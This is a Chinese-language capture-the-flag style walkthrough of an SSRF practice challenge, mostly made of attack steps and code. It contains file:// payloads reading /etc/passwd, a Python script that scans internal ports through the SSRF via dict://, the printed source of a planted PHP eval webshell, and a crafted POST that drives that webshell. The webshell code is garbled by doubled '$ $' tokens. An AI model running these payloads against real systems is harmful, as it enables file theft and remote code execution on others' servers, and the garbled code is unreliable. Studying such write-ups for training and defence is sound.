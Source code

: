 ### SSRF练习

1. 读取password所在文件：`http://oj.momomoxiaoxi.com:9090/index.php?url=file:///etc/passwd` &rarr; 一般只用于测试payload是否有效。
2. 使用dirsearch对目标进行扫描： `python dirsearch.py http://oj.momomoxiaoxi.com:9090 -e php`
3. 扫描出一个 `robots.txt` 文件，我们再用第一步的方法访问该文件 &rarr; `http://oj.momomoxiaoxi.com:9090/index.php?url=file:///var/www/html/robots.txt` &rarr; 其中 `/var/www/html/` 是Apache的根文件夹，扫描文件没有越权无法获得操作系统的根文件夹，认为Apache的入口文件夹为根文件夹
4. 在robots.txt文件中存在一个 `webshe11111111.php` 文件，我们用同样的方法访问该文件 &rarr; `view-source:http://oj.momomoxiaoxi.com:9090/index.php?url=file:///var/www/html/webshe11111111.php` 得到php源代码：

```php
<?php
$serverList = array(
    "127.0.0.1"
);
$ $ip = $ $_SERVER['REMOTE_ADDR'];
foreach ($ $serverList as $ $host) {
    if ($ $ip === $ $host) {
        if ((!empty($ $_POST['admin'])) and $ $_POST['admin'] === 'h1admin') {
            @eval($_POST['hacker']);
        } else die("You aren't admin!");
    } else die('This is webshell');
} ?>
```

5. 利用dict协议查看端口开启情况，以下为编写Python脚本：

```python
import requests

url = 'http://oj.momomoxiaoxi.com:9090/index.php?url='
defaultlen = len(requests.get(url+'dict://127.0.0.1:0/info').content)
print("defaultlen:%d"%defaultlen)

for x in range(1000):
    try:
        response = requests.get(url+'dict://127.0.0.1:%s/info'%str(x))
        if len(response.content) != defaultlen:
            print("Port %s, content: %s"%(str(x), response.content))
    except Exception as e:
        print(e)
        pass
```

6. 我们发现22端口和80端口处于开启状态，其中80端口返回400 Bad Request，我们尝试使用9090端口作为跳板攻击80端口
7. 配置本地环境：使用Apache打开两个端口进行测试，在其中一个端口配置之前抓取下来的PHP文件，并向其发送POST请求，使用FireFox抓取发送的数据包，复制进入Python即可获得以下Python脚本：

```python
import urllib.parse
from selenium import webdriver

PostHead = """\
POST /webshe11111111.php HTTP/1.1
Host: 127.0.0.1:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://127.0.0.1:9090/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: keep-alive
Upgrade-Insecure-Requests: 1

admin=h1admin&hacker=phpinfo();
"""
```